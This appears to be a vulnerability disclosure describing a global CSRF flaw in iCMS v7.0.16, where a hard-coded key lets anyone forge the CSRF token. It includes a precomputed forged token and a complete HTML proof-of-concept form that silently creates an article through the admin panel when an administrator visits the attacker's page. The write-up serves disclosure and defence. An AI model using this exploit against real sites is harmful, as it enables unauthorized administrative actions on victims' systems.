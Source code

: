 ## Global CSRF Vulnerability Caused by Logic Defect in iCMS v7.0.16

The "CSRF_TOKEN"  param has been set when I try to find some CSRF vuln in the iCMS v7.0.16, but it is finally turned out to be a "fake CSRF_TOKEN" after I audit source code.

### location

The calculation logic of csrf_token is located in：

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve9.png)

it is based the value of "key" in the line 385, and the "key" is calculated by the value of "iPHP_KEY", the "iPHP_KEY" is hard coded in the source code. like：

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve10.png)

And then we can see the "CSRF_TOKEN" check logic in here:

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve11.png)

if the time is in the scope, and the values are equal, the check will be fine. So the problem is the "csrf_token" is hard coded in the source code, but not binding with the Identity，and the default expiration time("iPHP_COOKIE_TIME") is too long (as the picture show is 31536000 seconds). if someone builds a website with default configuration, the csrf_token can be fully forged.
 
### proof

we can just use the "authcode" function to create a "csrf_token", here is : 9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q

and then we make a poc for csrf to add an article ,like:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q" method="POST">
      <input type="hidden" name="&#95;cid" value="" />
      <input type="hidden" name="&#95;scid" value="" />
      <input type="hidden" name="&#95;tags" value="" />
      <input type="hidden" name="&#95;pid" value="" />
      <input type="hidden" name="&#95;data&#95;id" value="" />
      <input type="hidden" name="article&#95;id" value="0" />
      <input type="hidden" name="userid" value="1" />
      <input type="hidden" name="ucid" value="" />
      <input type="hidden" name="postype" value="1" />
      <input type="hidden" name="REFERER" value="http&#58;&#47;&#47;192&#46;168&#46;64&#46;2&#47;iCMS&#45;7&#46;0&#46;16&#47;admincp&#46;php&#63;app&#61;article&amp;do&#61;trash" />
      <input type="hidden" name="chapter" value="" />
      <input type="hidden" name="markdown" value="0" />
      <input type="hidden" name="cid" value="4" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="scid&#91;&#93;" value="4" />
      <input type="hidden" name="pid&#91;&#93;" value="0" />
      <input type="hidden" name="title" value="fasdhfas" />
      <input type="hidden" name="stitle" value="fasdfa" />
      <input type="hidden" name="source" value="fads" />
      <input type="hidden" name="author" value="fs" />
      <input type="hidden" name="editor" value="iCMS" />
      <input type="hidden" name="pic" value="" />
      <input type="hidden" name="mpic" value="" />
      <input type="hidden" name="spic" value="" />
      <input type="hidden" name="keywords" value="fasdf" />
      <input type="hidden" name="tags" value="" />
      <input type="hidden" name="description" value="dfasdfasd" />
      <input type="hidden" name="data&#95;id" value="" />
      <input type="hidden" name="subtitle" value="fasd" />
      <input type="hidden" name="autopic" value="1" />
      <input type="hidden" name="body&#91;&#93;" value="&lt;p&gt;fadsfasd&lt;&#47;p&gt;" />
      <input type="hidden" name="pubdate" value="2021&#45;01&#45;24&#32;16&#58;05&#58;50" />
      <input type="hidden" name="sortnum" value="1611475550" />
      <input type="hidden" name="weight" value="1611475550" />
      <input type="hidden" name="hits" value="0" />
      <input type="hidden" name="hits&#95;today" value="0" />
      <input type="hidden" name="hits&#95;yday" value="0" />
      <input type="hidden" name="hits&#95;week" value="0" />
      <input type="hidden" name="hits&#95;month" value="0" />
      <input type="hidden" name="favorite" value="0" />
      <input type="hidden" name="comments" value="0" />
      <input type="hidden" name="good" value="0" />
      <input type="hidden" name="bad" value="0" />
      <input type="hidden" name="tpl" value="" />
      <input type="hidden" name="clink" value="" />
      <input type="hidden" name="url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

and take this in my vps website , the article will be created when the user click the website in my vps, like :

![](https://github.com/0-error/myCVE/blob/gh-pages/pictures/cve12.png)

This is a global problem, the "csrf_token" is useless here and many operations will involve csrf vulnerabilities .


